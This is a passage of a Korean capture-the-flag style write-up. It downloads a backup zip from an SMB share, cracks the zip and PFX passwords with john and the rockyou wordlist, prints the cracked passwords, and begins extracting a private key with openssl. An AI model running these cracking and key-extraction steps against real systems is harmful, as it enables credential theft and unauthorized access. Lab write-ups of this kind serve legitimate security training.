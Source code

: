`Shares/Dev/winrm-backup.zip` 파일을 `smbclient` 를 이용해 다운받는다. 압축해제를 하려고 보니 아래와 같이 비밀번호가 필요한 것을 확인 할 수 있다. 

![](https://velog.velcdn.com/images/h3llanut3lla/post/531a45a7-7fcf-44c7-8b90-da7bc6bcbd03/image.png)

```sh
# zip파일을 john이 읽을 수 있도록 해쉬 변환
zip2john winrm_backup.zip > hash

# john을 이용해 해쉬 크랙
john -w=/usr/share/wordlists/rockyou.txt hash
```

위 명령어를 입력하면 아래와 같이 일반 텍스트의 비밀번호를 얻을 수 있다. 

- zip파일 비밀번호: `supremelegacy` 

![](https://velog.velcdn.com/images/h3llanut3lla/post/1c1e6529-a623-485d-be18-ca2bcce6d939/image.png)

#### legacyy_dev_auth.pfx

압축 해제된 파일에는 `legacyy_dev_auth.pfx` 라는 파일이 있다. PFX파일은 SSL 인증서과 개인 키를 포함하고 WinRM에서 PFX 파일을 사용 할 수 있다. 

[이 글](https://www.ibm.com/docs/en/arl/9.7?topic=certification-extracting-certificate-keys-from-pfx-file)을 보면 pfx에서 SSL 인증서와 개인 키를 추출하는 법을 알 수 있다. 

문제는 

![](https://velog.velcdn.com/images/h3llanut3lla/post/355cbe65-0b63-4097-b500-827e980c28c0/image.png)

이 파일 또한 비밀번호가 필요하다는 것이다. 

![](https://velog.velcdn.com/images/h3llanut3lla/post/d7c489e3-dd00-4cc9-8809-806273a3e871/image.png)

비밀번호 재사용 (Password re-use)시도를 해 보았지만 안되었다. Zip파일 비밀번호를 크랙했던 것 처럼, john을 재사용 해보자. 


```sh
# 해시 변경
python3 /usr/share/john/pfx2john.py legacyy_dev_auth.pfx > pfx.john

# 해시 크랙
john pfx.john -w=/usr/share/wordlists/rockyou.txt
```

![](https://velog.velcdn.com/images/h3llanut3lla/post/d78203c3-120d-4138-b366-322001eee2ea/image.png)

- `legacyy_dev_auth.pfx` 비밀번호: `thuglegacy`

이제 비밀번호를 얻었으니, SSL 인증서와 개인키를 추출해보자. 


```sh
# Pfx 파일에서 개인 키 추출
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem -nodes
```

![](https://velog.velcdn.com/images/h3llanut3lla/post/fa805b11-08bf-493f-a47b-224a63358dec/image.png)
